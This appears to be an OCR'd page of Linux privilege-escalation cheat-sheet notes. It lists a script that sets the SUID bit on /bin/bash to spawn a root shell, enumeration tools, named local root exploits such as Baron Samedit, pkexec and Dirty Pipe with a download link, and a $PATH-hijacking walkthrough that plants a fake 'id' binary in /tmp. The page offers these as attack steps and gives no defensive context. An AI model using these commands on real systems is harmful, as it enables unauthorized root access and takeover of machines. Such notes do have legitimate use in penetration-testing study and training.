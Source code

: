 ```
#!/bin/bash
chmod +s /bin/bash

/bin/bash -p
```
### AutoEnumeration
```
linpeas.sh  
./lse.sh -l 1 -i
python3 beroot.py
python3 beroot.py --password user_pwd
```
### Nday exploits
```
CVE-2021-3156 sudo Baron Samedit 2 sudo 1.8.2-1.8.32,1.9.0-1.9.5 downloadlink:https://codeload.github.com/worawit/CVE-2021-3156/zip/main
screen-4.5.0-pe_CVE-2017-5618
cve-2023-22809-Sudoedit-bypass-in-Sudo <= 1.9.12p1.sh
snapd-local-pe-prior_to_2.371_CVE-2019-7304.py
cve-2021-4034-polkit-pkexec
```
### Kernel exploits
```
OS version:
cat /etc/issue  
cat /etc/*-release  
Kernel Version and Architecture: 
uname -a

./linux-exploit-suggester-2.pl -k 2.6.32

CVE-2025-21756-linuxkernel5.5-6.13.4
CVE-2018-18955_Linux_kernel_4.15.x_through_4.19.x_before_4.19.2
CVE-2022-32250-Linux-Kernel-requires4.1-5.18.2-LPE
dirtycow-linux_kernel_requires2.6.22-4.8.3_CVE-2016-5195
Dirty-Pipe-requireLinux5.8+_CVE-2022-0847.sh
```
### Abusing $PATH
```
Add /tmp into path
export PATH=/tmp:$PATH
ehco $PATH

check If any writable path under $PATH

1. find / -perm -u=s -type f 2>/dev/null
2. Then we move into /home/raj/script and saw an executable file “shell2”. So we run this file, it looks like the file shell2 is trying to run id and this is a genuine file inside /bin.
3. cd /tmp
echo "/bin/bash" > id
chmod 777 id
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell2
whoami
```
### GTFOBins
```
GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
```